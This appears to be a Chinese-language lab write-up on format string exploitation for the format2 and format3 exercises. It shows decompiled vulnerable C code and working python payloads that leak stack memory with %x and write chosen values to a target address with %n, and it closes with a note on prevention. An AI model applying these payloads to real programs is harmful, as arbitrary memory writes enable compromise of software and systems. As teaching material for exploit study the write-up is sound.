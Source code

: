 # 格式化字符串实验2

## 实验概述

### 【目的】
1. 运行format2,得到输出`you have modified the target :)`
2. 运行format3,得到输出`you have modified the target :)`
### 【环境】
Linux
### 【工具】
python
### 【原理】
格式化字符串，是一些程序设计语言在格式化输出API函数中用于指定输出参数的格式与相对位置的字符串参数，例如C、C++等程序设计语言的printf类函数，其中的转换说明（conversion specification）用于把随后对应的0个或多个函数参数转换为相应的格式输出；格式化字符串中转换说明以外的其它字符原样输出。[1]
## 实验步骤

### 【步骤】
#### format2
IDA pro 定位到关键函数。
```c
int vuln()
{
  char s; // [sp+Ch] [bp-20Ch]@1
  int v2; // [sp+20Ch] [bp-Ch]@1

  v2 = *MK_FP(__GS__, 20);
  fgets(&s, 512, stdin);
  printf(&s);
  if ( target == 64 )
    puts("you have modified the target :)");
  else
    printf("target is %d :(\n", target);
  return *MK_FP(__GS__, 20) ^ v2;
}
```
target的地址
```
.bss:0804A048 target          dd ?                    ; DATA XREF: vuln+43r
.bss:0804A048                                         ; vuln:loc_804854Ar
.bss:0804A048 _bss            ends
```
与format1不同的是，这里要求精确控制target的的值为64。
跟上一题一样，先查找format参数的偏移量。
```
$ python -c 'print "AAAA"+".".join(["%d:%%x" % i for i in range(1,16)])' | ./format2
AAAA1:200.2:f7fb65a0.3:f7ff0f8a.4:f7e0c008.5:f7fd41a8.6:f7ffcf1c.7:41414141.8:78253a31.9:253a322e.10:3a332e78.11:342e7825.12:2e78253a.13:78253a35.14:253a362e.15:3a372e78
target is 0 :(

```
尝试修改target变量的值
```
$ python -c 'print "\x48\xa0\x04\x08%7$n"' | ./format2
H�
target is 4 :(

```
这里target的值被改写成为4，要使target的值为64，需要在%n前面再多输出60个字符，c语言中，`%`后可以接数字表示输出的位数，那么要输出60个字符，就可以使用`%60d`。
```
$ python -c 'print "\x48\xa0\x04\x08%60d%7$n"' | ./format2
H�                                                         512
you have modified the target :)

```

#### format3

```
int vuln()
{
  char s; // [sp+Ch] [bp-20Ch]@1
  int v2; // [sp+20Ch] [bp-Ch]@1

  v2 = *MK_FP(__GS__, 20);
  fgets(&s, 512, stdin);
  printbuffer(&s);
  if ( target == 0x1025544 )
    puts("you have modified the target :)");
  else
    printf("target is %08x :(\n", target);
  return *MK_FP(__GS__, 20) ^ v2;
}
.bss:0804A048                 public target
.bss:0804A048 target          dd ?                    ; DATA XREF: vuln+43r
.bss:0804A048                                         ; vuln:loc_8048563r
.bss:0804A048 _bss            ends
```
这里要求target = 0x01025544，由于%n一次只能输入一个字节，所以我们需要调用四次%n来改写target的值。
先寻找偏移量是多少。
```
$ python -c 'print "AAAA"+".".join(["%d:%%x" % i for i in range(1,16)])' | ./format3
AAAA1:f7feeff0.2:f7e6362b.3:0.4:f7fb6000.5:f7fb6000.6:ffffcf58.7:8048542.8:ffffcd4c.9:200.10:f7fb65a0.11:f7ff0f8a.12:f7e0c008.13:f7fd41a8.14:f7ffcf1c.15:41414141
$ python -c 'print "ABCD" + "X" * 4 + "%15$x."' | ./format3
ABCDXXXX44434241.
target is 00000000 :(

```
确定了偏移量是15，先尝试一下修改。
```
$ python -c 'print "\x48\xa0\x04\x08"  + "%64d%15$n."' | ./format3
H�                                                      -134287376.
target is 00000044 :(

```
成功修改了最低一位的值，再尝试修改两位。
```
$ python -c 'print "\x48\xa0\x04\x08\x49\xa0\x04\x08"  + "%60d%15$n%17d%16$n"' | ./format3
H�I�                                                  -134287376       -135907797
target is 00005544 :(

```
注意，这里前面的地址输入了8位，那么后面的位数也要相应的减去4，可以看到原本的%64d变成了%60d。
现在要控制第三位的值，考虑到需要把值改为0x02，而0x55大于0x02，此时需要溢出到258。因为258刚好是0x0102，所以此时已经满足条件。
```
$ python -c 'print "\x48\xa0\x04\x08\x49\xa0\x04\x08\x4a\xa0\x04\x08"  + "%56d%15$n%17d%16$n%173d%17$n"' | ./format3
H�I�J�                                              -134287376       -135907797                                                                                                                                                                            0
you have modified the target :)

```



### 【总结】
本次实验主要进一步熟悉了通过%x泄露内存数据，通过%n来进行任意地址写，通过%`x`d来控制输出x个字符。

可以发现，格式化字符串漏洞发生的原因是程序将格式化字符串的权限交给用户，即用户可以操作格式化字符串的内容。

要预防这类情况，在使用格式化字符串函数时，format参数的权限一定不能交给用户。
